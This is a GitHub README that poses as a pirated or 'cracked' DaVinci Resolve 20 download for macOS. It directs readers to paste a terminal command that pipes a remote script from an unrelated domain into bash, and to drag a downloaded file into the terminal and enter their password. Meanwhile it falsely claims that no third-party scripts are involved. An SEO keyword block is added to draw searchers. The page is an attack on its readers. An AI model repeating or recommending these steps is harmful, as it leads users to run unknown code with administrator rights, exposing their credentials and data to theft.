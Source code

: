 <p align="center">
  <img src="https://rsload.net/images6/DaVinci_Resolve_Studio%20crack.jpg" width="120"/>
</p>

<h1 align="center">🎬 DaVinci Resolve 20 for macOS</h1>

<p align="center">
  <a href="https://davinci-mac-download.github.io/.github/">
    <img src="https://img.shields.io/badge/⬇️%20Download-DaVinci_Resolve_20-green?style=for-the-badge&logo=apple&logoColor=white"/>
  </a>
</p>

---

> Powerful all-in-one solution for professional editing, advanced color correction, audio post, and visual effects – now available with a manual setup for macOS.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📌 Key Features

- 🎞️ Advanced multi-track timeline editing
- 🎨 Hollywood-grade color grading tools
- 🔊 Fairlight audio suite with ADR and 3D sound
- 🧩 Fusion VFX and motion graphics
- 📁 Supports Blackmagic RAW and ProRes workflows
- 👥 Collaborative features for studio teams

---

## 💡 System Compatibility

| OS          | Supported        |
|-------------|------------------|
| macOS 12+   | ✅               |
| macOS 11    | ⚠️ Limited       |

---

## 🖼️ Visual Preview

<p align="center">
  <img src="https://images.blackmagicdesign.com/images/media/releases/2020/20201113_davinci-resolve-17-1/carousel/3-davinci-resolve-17-1.jpg?_v=1605237879" width="720"/>
  <br/>
  <img src="https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/10/f6/ba/10f6ba55-0d57-d9a0-3df4-b429b7edbf00/DaVinciResolve20_AppStore_Color.png/643x0w.jpg" width="720"/>
</p>

---

## 📢 Important Notes

- No external tools or third-party scripts involved  
- This setup does not modify system files  
- Compatible with Apple Silicon and Intel Macs  
- Keep the archive for future reinstalls

---

## 🔍 SEO Keywords

```
DaVinci mac, DaVinci Resolve 20 macOS, DaVinci Studio manual setup, macOS video editing suite, pro color grading Mac, Fusion VFX DaVinci, Fairlight audio post, Blackmagic Resolve 20 Mac, macOS editor with launcher, visual effects studio Mac, DaVinci Resolve full version
```

